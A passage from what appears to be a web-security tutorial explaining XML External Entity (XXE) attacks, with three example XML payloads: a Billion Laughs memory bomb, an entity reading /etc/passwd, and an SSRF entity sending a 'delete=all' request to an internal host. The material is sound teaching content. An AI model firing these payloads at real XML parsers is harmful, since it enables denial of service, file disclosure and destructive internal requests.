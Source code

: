 ## Quiz

It's everybody's favourite time, it's quiz time: [( ͡° ͜ʖ ͡°)](https://forms.gle/y1n3GMj62sXr5Lsk7)

**More resources:**

- https://crackstation.net/hashing-security.htm
- https://www.izooto.com/blog/understanding-http-https-protocols

# 4. XML External Entities (XXE)

XXE is a type of attack against an application that parses XML input. It occurs when untrusted XML input containing a reference to an external entity is processed by a weakly/poorly configured XML parser. 
This can lead to disclosure of confidential data, internal port scanning, [Server Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery), remote code execution, and [denial of service](https://owasp.org/www-community/attacks/Denial_of_Service) (DoS) attacks. 

## Examples

1. **Denial of Service** attack: XML Bomb, e.g. [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack). It works by flooding the XML parser with a large document, which causes the application to consume all of its available memory until the process crashes: 
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
2. **Disclosure of confidential data** from the server:
``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
3. **Server Side Request Forgery** attack:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY ssrf SYSTEM 'http://10.0.0.2/users.php?delete=all'> ]>
<updateProfile>
<firstname>Joe</firstname>
<lastname>&ssrf;</lastname>
</updateProfile>
```
